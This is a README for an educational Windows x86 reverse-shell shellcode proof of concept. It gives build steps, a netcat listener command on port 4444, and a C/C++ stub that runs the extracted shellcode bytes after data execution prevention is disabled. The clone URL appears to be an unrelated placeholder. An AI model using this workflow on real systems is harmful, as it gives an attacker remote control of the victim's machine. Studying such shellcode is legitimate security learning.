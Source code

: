 # WinX86 Shellcode (Reverse Shell)
This POC was done for educational purpose and walkthrough to understand how windows shellcode is working and get insight about how to extract windows APIs from Dlls.

## Getting Started

These instructions will get you a copy of the POC files on your local system for purpose of testing the shellcode.

### Prerequisites
**To get the things work you have to download:**
* [MASM32 sdk](https://www.masm32.com/download.htm) - The Microsoft Assembler (commonly known as MASM)
* nmake  - It's used for building purpose and it's distributed with visual studio. 
* [python3](https://www.python.org/downloads/) - python3 interpreter.
* netcat - This simple utility reads and writes data across TCP or UDP network connections. 

### Usage
1.   Clone the repository:
```
git clone https://username@bitbucket.org/teamsinspace/documentation-tests.git
```
2. Open **makefile.txt** and change **masmPath** based on the location of masm32 in your local machine:
```
masmPath= //your masm32 path
```
3. Open **shellcode.asm** and change **windows.inc** path based on the location of masm32 in your local machine:
```
include masm32path\include\windows.inc
```

4. Open **Developer Command Prompt for VS** and execute following commands to build the **shellcode.asm** file to **shellcode.exe** file:
```
cd ProjectFolder path
nmake makefile.txt
```
5. To extract the shellcode bytes from **shellcode.exe** into output file called **shellcodebytes.txt** execute the following:
```
python3 shellcode_extractor.py shellcode.asm 
```

6. open **CMD** and make **netcat** listen on port what you have specified in shellcode.asm (the default is 4444):
```
nc -lvp 4444
```

7. create c or c++ project and disable **data execution prevention (DEP)** then write the following code:

```
char shellcode[] = "";	// copy shellcode from shellcodebytes.txt
char *ptr = new char[sizeof(shellcode)];
memcpy(ptr, shellcode, sizeof(shellcode));
((void(*)())ptr)();
```

### Testing environment
* The code was tested on **windows10**.


